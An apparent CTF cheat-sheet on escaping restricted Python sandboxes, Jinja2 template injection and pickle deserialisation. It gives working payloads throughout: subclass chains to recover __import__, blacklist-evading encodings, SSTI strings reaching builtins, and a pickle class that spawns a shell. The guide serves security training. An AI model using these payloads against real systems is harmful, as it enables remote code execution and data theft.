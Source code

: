 # The Definitive Guide to Pyjails

## Introduction

A PyJail, or Python Jail, refers to a restricted Python environment designed to limit the capabilities of code executed within it. It is commonly encountered in Capture The Flag (CTF) challenges and security exercises, where the goal is to "escape" the jail and achieve a higher level of access or control, often by accessing restricted functions.

---
## Traditional Pyjails

### Unicode bypass 😈😈😈
Probably the most straightforward way of escaping a pyjail if a SKID wrote it.  

Python normalises italics for some reason, but the characters don't match your normal ASCII table, so standard blacklists can be easily bypassed.  

Note that symbols still remain the same.  

https://lingojam.com/ItalicTextGenerator

### Helpful builtins

`eval()`, `exec()`, `compile()`: execute arbitrary code

### Spawning shells / running system commands

Shell commands: `sh`, `python3`

Helpful functions:
- `os.system()`: probably the most well-known method     
- `subprocess.call()`, `subprocess.run()`: allows you to spawn shells
- `os.popen().read()`, `subprocess.Popen()`, `subprocess.check_output()`: runs commands and returns the output
- `pty.spawn()`: lesser known but still helpful!

Debug mode: `breakpoint()`, `__import__('sys').breakpointhook()`, `pdb.set_trace()`
- starts a python debugger

Python Interactive mode
- `code.interact()`: launches a Python shell
- `os.environ["PYTHONINSPECT"] = "1"`: launches a Python shell when your script finishes execution

### Reading files
`open('flag.txt').read()` (H2 computing doesn't recommend this)

But what if `print()` isn't available...?
- `help()`, `exit()`, `quit()`: essentially `print()`

But what if `read()` isn't accessible? Redirect to `stderr`!
1. unpack your file object into a string: `*open('flag.txt')`
2. then run a faulty conversion!: `int()`, `float()`, `complex()`

### No builtins???
Some pyjails may (attempt to) remove `__builtins__` entirely as shown below.  

```python
eval(code, {"__builtins__": None})
```

Luckily, we can still bypass this! 

```python
().__class__.__base__.__subclasses__()
```

This essentially accesses all subclasses that inherit from the `object` class (ie. EVERY class defined in Python!)

From here, we can access previously restricted functions through some helpful classes.

Here, we access the `warnings` base class from the `catch_warnings` subclass, from which we can then call the `__import__` function.  
```python
[c for c in ().__class__.__base__.__subclasses__() if "catch" in c.__name__][0]()._module.__builtins__["__import__"]
```

We can even directly read variables by overwriting the `sys` module's exception handler to output all global variables.  

```python
(s:=[c for c in ().__class__.__base__.__subclasses__() if 'wrap_close' in c.__name__][0].__init__.__globals__['sys'], s.__setattr__('excepthook', lambda *a: s.stdout.write(a[2].tb_frame.f_globals.__str__())), a)
```

### NO PARENTHESES??? 💔💔💔
Probably the most troublesome to bypass...  
Luckily, you can chain decorators to a dummy class to invoke functions without parentheses!

```python
@exec
@input
class C:
    ...
```

### NUKED BUILTINS 😱😱😱
Setting a `__builtins__` function to `None` completely removes the global reference to it (eg. `__builtins__.eval = None`)  

Honestly nothing you can do about it brotato chip ✌🥀, just find another entry point.  

### More stuff
Dynamically accessing attributes
- `getattr()`: for objects
- `__getitem__()`: for dictionaries

Octal encoding
- bypass blacklists within your strings!
- eg: `'\146\154\141\147.txt'` -> `'flag.txt'`

Assigning variables
- the walrus operator treats an assignment as an expression
- only works for variables (no attribute assignment)
- eg: `a:=1`

---
## SSTI

In some Web challenges, you might see a vulnerability like this.  

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "POST":
        return render_template_string(f"Hello {request.form['name']}!")
    else:
        return '''
            <form method="POST">
                Name: <input type="text" name="name">
                <input type="submit" value="Greet">
            </form>
        '''
```

The vulnerability lies in the way the webpage is rendered when the POST request is received. The `f-string` can be abused to retrieve `__builtins__` through Jinja2 introspection.  

```python
{{ self.__init__.__globals__.__builtins__ }}
```

Jinja2 also has a special variable `request`, which refers to the current request being processed and can also be abused to access `__builtins__`

```python
{{ request.application.__globals__.__builtins__ }}
```

An obfuscated way of achieving the above would be using Jinja2's `|` operator, which allows us to pipe the results of filters.  

This is particularly useful if characters like `.` are blacklisted.  

```python
{{ self | attr('__init__') | attr('__globals__') | attr('__getitem__')('__builtins__') }}
```

---
## Pickle
Pickle has a pretty well-known RCE exploit that allows you to run arbitrary commands on deserialisation.  

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('sh',))

payload = pickle.dumps(Exploit())
```

### Pickle RCE blacklist??? 😱😱😱
Once a blacklist is introduced, things won't be as straightforward.  
Luckily, we can use [Pickora](https://github.com/splitline/Pickora) to convert our obfuscated Python code to Pickle bytecode.  

Read [this article](https://github.com/maurosoria/dirsearch/issues/1073) for more info.  
